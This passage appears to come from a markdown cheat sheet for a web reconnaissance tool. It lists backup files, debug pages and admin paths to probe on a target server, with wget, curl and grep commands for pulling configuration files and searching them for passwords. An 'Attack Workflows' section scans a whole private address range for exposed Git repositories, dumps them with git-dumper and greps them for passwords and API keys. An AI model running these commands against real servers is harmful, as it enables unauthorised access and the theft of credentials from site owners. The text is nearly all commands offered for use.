 ### Backup Files
```
Checked:
  index.php.bak
  config.php.old
  database.yml~
  backup.zip

Extract:
  wget http://target/config.php.bak
  grep -i "password" config.php.bak
```

### Info Disclosure
```
Checked:
  /phpinfo.php
  /info.php
  /debug.php
  /test.php

Review:
  curl http://target/phpinfo.php | grep "expose"
```

### Common Paths
```
Checked:
  /admin
  /administrator
  /backup
  /config
  /phpmyadmin
  /.env

Test:
  curl -I http://target/admin
```

## Attack Workflows

### Workflow 1: Quick Win Hunt
```bash
# 1. Fast Git scan
./webseek.py --git 192.168.0.0/16 -w 100

# 2. Download repos
for url in $(cat git_repos.txt); do
    git-dumper "$url" "repo_$(echo $url | md5sum | cut -c1-8)"
done

# 3. Extract secrets
grep -r "password\|api.*key" repo_*/
```
